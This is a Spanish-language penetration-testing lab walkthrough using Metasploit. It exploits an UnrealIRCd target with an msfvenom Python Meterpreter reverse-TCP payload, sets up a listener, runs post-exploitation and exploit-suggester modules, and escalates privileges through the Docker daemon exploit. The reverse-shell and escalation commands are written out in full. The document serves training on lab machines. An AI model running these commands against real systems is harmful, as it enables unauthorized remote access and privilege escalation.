










Linux meterpreter
LINUX:
Para poder ver donde se encuentran los módulos en metasploit:
cd /usr/share/metasploit-framewor/modules/post

Para realizar esta prueba vamos a explotar la vulnerabilidad de UnrealIRC con un payload personalizado para generar un meterpreter.
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.20.130 lport=5555
En el exploit que vimos anteriormente modificamos el payload de python:

Configuramos un listener en Metasploit.
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 192.168.20.130
set lport 5555

Ejecutamos exploit.
/exploit.py 192.168.20.128 6667 -payload python


Dentro de la máquina ya vulnerada es cuando podemos usar los módulos anteriores:

Por ejemplo:
run post/linux/gather/checkvm

Vamos a intentar escalar privilegios con otros exploits.
Mandamos la sesión meterpreter activa a un segundo plano.

Utilizamos un recomendador:
use post/multi/recon/local_exploit_suggester
show options
set session 1
exploit
Lo que hace es de forma automática recolecta exploits que puedan ser compatibles con la máquina objetivo.

Vamos a utilizar el numero 4.
use exploit/linux/local/docker_daemon_privilege_escalation
set session 1
set lhost 192.168.20.130
set payload linux/x86/meterpreter/reverse_tcp
Este exploit se encarga de ejecutarse en esa sesión 1 sin privilegios y nos devuelve otro meterpreter con privilegios escalados.
